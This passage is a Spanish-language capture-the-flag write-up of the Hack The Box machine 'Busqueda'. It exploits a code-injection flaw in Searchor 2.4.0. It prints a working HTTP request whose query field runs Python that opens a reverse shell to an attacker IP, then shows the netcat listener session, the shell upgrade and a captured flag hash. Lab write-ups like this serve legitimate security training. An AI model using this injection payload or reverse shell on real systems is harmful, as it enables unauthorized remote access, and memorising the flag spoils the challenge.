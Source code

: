 Es vulnerable a RCE. En este [artículo](https://security.snyk.io/package/pip/searchor/2.4.0) está detallada su explotación. En este [POC](https://github.com/jonnyzar/POC-Searchor-2.4.2) detallan como explotarlo

Inyecto el payload


```null
POST /search HTTP/1.1
Host: searcher.htb
Content-Length: 112
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://searcher.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://searcher.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

engine=AlternativeTo&query=', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.15',443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

Gano acceso al sistema en una sesión de ```netcat```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.15] from (UNKNOWN) [10.10.11.208] 52210
/bin/sh: 0: can't access tty; job control turned off
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
svc@busqueda:/var/www/app$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
svc@busqueda:/var/www/app$ export TERM=xterm
svc@busqueda:/var/www/app$ export SHELL=bash
svc@busqueda:/var/www/app$ stty rows 55 columns 209
``` 

Puedo ver la primera flag

```null
svc@busqueda:~$ cat user.txt 
9db07fb3a44ab64c9cbcc78af369f0c3
```

# Escalada
